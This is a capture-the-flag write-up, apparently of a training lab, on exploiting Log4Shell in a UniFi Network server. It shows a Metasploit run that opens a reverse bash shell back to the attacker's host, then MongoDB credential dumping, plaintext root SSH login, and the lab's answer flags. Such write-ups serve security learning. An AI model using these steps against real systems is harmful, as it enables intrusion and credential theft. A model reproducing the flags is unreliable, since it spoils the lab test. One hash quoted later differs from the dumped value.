


# Starting Point / Unified

**About:** Unified is a very easy Linux machine that demonstrates the exploitation of the Log4Shell (CVE-2021-44228) vulnerability in the UniFi Network application. Enumeration reveals a vulnerable UniFi instance where a remote execution can be achieved by crafting and injecting a JNDI payload into a POST request. Then a local MongoDB database can be leveraged to reset the administrator password and gain access to the UniFi admin panel. Plaintext SSH credentials can be discovered in the application settings leading to final privilege escalation.

**Target:** `10.129.28.83`

---

## Task 1 - Which are the first four open ports?

Step 1 always nmap:
- This time i ran `-A` to "Enable OS detection, version detection, script scanning, and traceroute" -- aggressive mode

(Omitting some details due to relevancy for task 1)
```bash
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http            Apache Tomcat (language: en)
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/http        Apache Tomcat (language: en)
8880/tcp open  http            Apache Tomcat (language: en)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
```

**Answer:** `22,6789,8080,8443`

---

## Task 2 - What is the title of the software that is running running on port 8443?


nmap `-A` results:

```bash
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
|_ssl-date: TLS randomness does not represent time
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
```

"HTTP-Title: UniFi Network"

**Answer:** `UniFi Network`

---

## Task 3 - What is the version of the software that is running?

Going to the webpage `https://10.129.28.83:8443` shows the version number: 



**Answer:** `6.4.54`

---

## Task 4 - What is the CVE for the identified vulnerability?

Research:
- https://community.ui.com/releases/Security-Advisory-Bulletin-023-023/808a1db0-5f8e-4b91-9097-9822f3f90207
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228

CVE-2021-44228: "Apache Log4j2 2.0-beta9 through 2.15.0 (excluding security releases 2.12.2, 2.12.3, and 2.3.1) JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled".

Its a log4j

**Answer:** `CVE-2021-44228`

---

## Task 5 - What protocol does JNDI leverage in the injection?

LDAP?

Its LDAP

**Answer:** `LDAP`

---

## Task 6 - What tool do we use to intercept the traffic, indicating the attack was successful?

Some sort of network analysis tool -- such as tcpdump or wireshark, but in this case, tcpdump:

**Answer:** `tcpdump`

---

## Task 7 - What port do we need to inspect intercepted traffic for?

LDAP is port 389, so naturally we'd inspect traffic destined for port 389 and from int tun0:

`sudo tcpdump port 389 -i tun0`



**Answer:** `389`

---

## Task 8 - Submit the flag located in the michiael user's home directory.

I'll use the metasploit framework and search for `CVE-2021-44228`:

```bash
msf > search CVE-2021-44228

Matching Modules
================
   #   Name                                           Disclosure Date  Rank       Check  Description
   -   ----                                           ---------------  ----       -----  -----------
   0   exploit/multi/http/log4shell_header_injection  2021-12-09       excellent  Yes    Log4Shell HTTP Header Injection
   6   auxiliary/scanner/http/log4shell_scanner       2021-12-09       normal     No     Log4Shell HTTP Scanner
   9   exploit/linux/http/mobileiron_core_log4shell   2021-12-12       excellent  Yes    MobileIron Core Unauthenticated JNDI Injection RCE (via Log4Shell)
   12  exploit/multi/http/ubiquiti_unifi_log4shell    2021-12-09       excellent  Yes    UniFi Network Application Unauthenticated JNDI Injection RCE (via Log4Shell)
   17  exploit/multi/http/vmware_vcenter_log4shell    2021-12-09       excellent  Yes    VMware vCenter Server Unauthenticated JNDI Injection RCE (via Log4Shell)
```

Perfect that option 12 is used for UniFi, so I'll try that one:

```bash
msf> use 12
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set RHOSTS 10.129.28.83
RHOSTS => 10.129.28.83
msf exploit(multi/http/ubiquiti_unifi_log4shell) > set LHOST 10.10.14.253
LHOST => 10.10.14.253
msf exploit(multi/http/ubiquiti_unifi_log4shell) > exploit
[*] Started reverse TCP handler on 10.10.14.253:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. The target is running a vulnerable version
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (10.10.14.253:4444 -> 10.129.28.83:38740) at 2026-06-01 22:05:30 -0400
[*] Server stopped.

whoami
unifi

which bash
/bin/bash

/bin/bash -i
unifi@unified:/usr/lib/unifi$ 
```

I'm in (⌐■_■)

```bash
unifi@unified:/usr/lib/unifi$ cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

**Answer:** `6ced1a6a89e666c0620cdb10262ba127`

---

## Task 9 - What port is the MongoDB service running on?

Now I can run `ps -ef` to get a list of our processes running (output cutoff for brevity):

```bash
unifi@unified:/usr/lib/unifi$ ps -ef 
UID          PID    PPID  C STIME TTY          TIME CMD
unifi         67      17  0 01:39 ?        00:00:23 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
```

MongoDB was ran with the `--port 27117` flag

**Answer:** `27117`


---


## Task 10 - What is the default database name for UniFi applications?

Connect and list the databases:

Refs:
- https://www.mongodb.com/docs/mongodb-shell/connect/
- https://www.mongodb.com/docs/mongodb-shell/run-commands/

```bash
unifi@unified:/usr/lib/unifi$ mongo 127.0.0.1:27117
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/test
MongoDB server version: 3.6.3

> show dbs
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB
```

Could it be ace?

**Answer:** `ace`

---

## Task 11 - What is the function we use to enumerate users within the database in MongoDB?

Found this one by just looking through the databases, specifically the admin database:

Refs:
- https://www.mongodb.com/docs/mongodb-shell/crud/read/#std-label-mongosh-read
- https://www.mongodb.com/docs/manual/reference/operator/aggregation/project/

`db.admin.find().pretty()` gave a lot of useful data, but i filtered it out:

```bash
db.admin.find({}, {name:1, email:1, x_shadow:1})
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4." }
{ "_id" : ObjectId("61ce4a63fbce5e00116f424f"), "email" : "michael@unified.htb", "name" : "michael", "x_shadow" : "$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0" }
{ "_id" : ObjectId("61ce4ce8fbce5e00116f4251"), "email" : "seamus@unified.htb", "name" : "Seamus", "x_shadow" : "$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC." }
{ "_id" : ObjectId("61ce4d27fbce5e00116f4252"), "email" : "warren@unified.htb", "name" : "warren", "x_shadow" : "$6$DDOzp/8g$VXE2i.FgQSRJvTu.8G4jtxhJ8gm22FuCoQbAhhyLFCMcwX95ybr4dCJR/Otas100PZA9fHWgTpWYzth5KcaCZ." }
{ "_id" : ObjectId("61ce4d51fbce5e00116f4253"), "email" : "james@unfiied.htb", "name" : "james", "x_shadow" : "$6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1" }
```

**Answer:** `db.admin.find()`

---

## Task 12 - What is the function we use to update users within the database in MongoDB?

Ref:
- https://www.mongodb.com/docs/manual/reference/update-methods/

**Answer:** `db.admin.update()`

---

## Task 13 - What is the password for the root user?

Well we have the admin password hash: `$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8igt4.`, but can we crack it?

```bash
hashid hash
--File 'hash'--
Analyzing '$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.'
[+] SHA-512 Crypt 
--End of file 'hash'--     

john -w=/usr/share/wordlists/rockyou.txt hash
```

Jk, we can't crack it, the hint says `It is not crackable`. I had to get creative, and i literally searched the collections to match `user` or `pass` (except for the admin collection):

Refs:
- https://www.mongodb.com/docs/manual/reference/method/db.getCollectionNames/
- https://www.mongodb.com/docs/manual/reference/method/db.collection.find/

```bash
db.getCollectionNames().forEach(function(c) {
  if (c === "admin") return;
  db.getCollection(c).find().forEach(function(doc) {
    if (tojson(doc).match(/user|pass/i)) {
      printjson(doc);
    }
  });
});

{
	"_id" : ObjectId("61ce26a646e0fb0012d47ed0"),
	"key" : "mgmt",
	"site_id" : "61ce269d46e0fb0012d47ec5",
	"advanced_feature_enabled" : true,
	"x_ssh_enabled" : true,
	"x_ssh_bind_wildcard" : false,
	"x_ssh_auth_password_enabled" : true,
	"unifi_idp_enabled" : true,
	"wifiman_enabled" : true,
	"x_api_token" : "bHCuY4mtGeWirsVzsaZ3wJd1PuRw9EzlXqaRKMrxCNuiGI3G7X1gIA4jYQKM95uu",
	"x_mgmt_key" : "215444b17e24e72ee9d166bd440f8e7c",
	"x_ssh_password" : "NotACrackablePassword4U2022",
	"x_ssh_username" : "root",
	"x_ssh_keys" : [ ],
	"led_enabled" : true,
	"alert_enabled" : true
}
```

Surely it can't be the ssh password?

**Answer:** `NotACrackablePassword4U2022`

---

## Task 14 - Submit the flag located in root's home directory.

SSH Username: root
SSH Password: NotACrackablePassword4U2022

```bash
ssh root@10.129.28.83
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html

root@10.129.28.83's password: NotACrackablePassword4U2022

Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

Last login: Tue Jun  2 03:24:14 2026 from 10.10.14.253

root@unified:~# cat /root/root.txt 
e50bc93c75b634e4b272d2f771c33681
```

I was looking at other writeups, and it looks like i did not meet the intent with this one. The intent was to use the `update()` function to update the admin password, then log into the dashboard and look even deeper.

Because the SSH credentials were stored unencrypted I was still able to find them within mongodb -- initially I had thought to update the password, but I thought that if I changed the password then i couldn't solve the task since it asked for the password.

I would've spent more time on this if I didn't get lucky with the `user|pass` lookup.

**Answer:** `e50bc93c75b634e4b272d2f771c33681`
